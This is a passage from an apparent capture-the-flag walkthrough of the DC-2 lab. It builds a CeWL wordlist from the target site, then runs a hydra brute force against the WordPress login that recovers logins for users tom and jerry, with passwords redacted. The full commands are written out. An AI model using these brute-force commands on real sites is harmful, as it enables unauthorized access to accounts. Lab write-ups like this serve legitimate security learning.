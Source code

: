 I build a wordlist with CeWL as the Flag tab suggested:

`cewl http://dc-2/ -m 1 -d 3 --with-numbers -w cewl-list.txt`

Looks like it produced a word list with 268 words:

`wc -l cewl-list.txt`

```
268 cewl-list.txt
```

And running a hydra brute force with our newly created password list plus the list of users we found:

`hydra -L users.txt -P cewl-list.txt dc-2 http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -V`

```
[80][http-post-form] host: dc-2   login: tom   password: <REDACTED>
[80][http-post-form] host: dc-2   login: jerry   password: <REDACTED>
```

We didn't find admin, but we did find both tom and jerry.

I login as jerry and under the pages section find our flag 2 hint:

![](images/dc-25.png)

That tells me we can't exploit WordPress and the reference to another entry point is probably SSH on port 7744 that we found earlier. Let's give that a shot.

<br>

## System Access
